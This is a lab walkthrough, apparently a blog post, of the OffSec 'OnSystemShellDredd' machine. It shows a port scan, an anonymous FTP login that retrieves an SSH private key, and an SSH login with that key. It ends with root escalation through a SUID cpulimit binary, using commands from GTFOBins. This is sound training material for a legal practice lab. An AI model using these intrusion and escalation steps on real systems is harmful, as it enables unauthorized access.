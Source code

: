 ```yaml
---
layout: post
title:  "Exhost Writeup"
date:   2022-07-16 12:35:41 +0530
---
```


# Walkthrough of OnSystemShellDredd

Hello everyone, in this post I'm sharing `offsec` play grounds `warm-up` machine called `OnSystemShellDredd`.  

## Nmap

First thing first that we have to find out opened ports of this target. So, I ran a full port scan against target ip here.

`nmap -sC -sV -p- <target-ip>`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds

```

## Attack

We can see a interesting thing that **`Anonumous FTP login allowed`**. So, we can access to the ftp server by anonymous credentials.

```
username - anonymous
password - anonymous
```

Command will be `ftp <target-ip>`

we can list the files in ftp server with command `ls -la`. Fortunately there is a directory called `.hannah`. So, now we can change the directory by `cd .hannah` and again we can list files by the previous command we used.

```
Connected to 192.168.219.130.
220 (vsFTPd 3.0.3)
Name (192.168.219.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

We can see a file called `id_rsa` is there. So we can get that file by `get id_rsa`.

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.01 secs (207.4669 kB/s)
ftp> 
```

The default name for SSH keypair is id_rsa. So, you got that. We can connect to the target by ssh using this id_rsa.first of all you need to set private key permissions.

```
chmod 600 id_rsa
ssh hannah@<targetip> -i id_rsa -p 61000
```

```
The authenticity of host '[192.168.116.130]:61000 ([192.168.116.130]:61000)' can't be established.
ECDSA key fingerprint is SHA256:ceHZU8u3GwiQwVwrN4Ci830AmTvAmIUOlLjtVYcP2KM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.116.130]:61000' (ECDSA) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ 
```

## Privilege Escalation

After login as user `hannah` we need to do a privilege escalation because we need to become root in this machine. In linux systems the `SUID` bit is a flag on a file which states that whoever runs the file will have the privileges of the owner of the file. Just imagine you are a normal `user` and the file is owned by `root`, then when you run that executable, the code runs with the permissions of the root user. The SUID bit only works on Linux ELF executables, meaning it does nothing if it’s set on a Bash shell script, a Python script file, a perl file or something like that.

You can find out the files with `SUID` enabled by this command.

``` 
command- find / -perm -u=s -type f 2>/dev/null 

find is a linux command which can find files in a directory.
-perm -u=s is searching for files with SUID.
2>/dev/null will filter out the errors so taht they will not be outputed to your console.

```

After I ran the command:-

```
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd

```

Here you can see a interesting binary called `cpulimit`. That is out target.

## Time to be root

There is a interesting site called [gtfobins](https://gtfobins.github.io) that will help how to bypass this sort of misconfigured files.

command to be root

```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1174 detected
# whoami
root
# cd /root
# ls
proof.txt  root.txt
```

Enjoy the flags Yourself!

## References

Don't be a script kiddy! Read more resources be a pro...

[Read more about SUID](https://materials.rangeforce.com/tutorial/2019/11/07/Linux-PrivEsc-SUID-Bit/)\
[Gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/)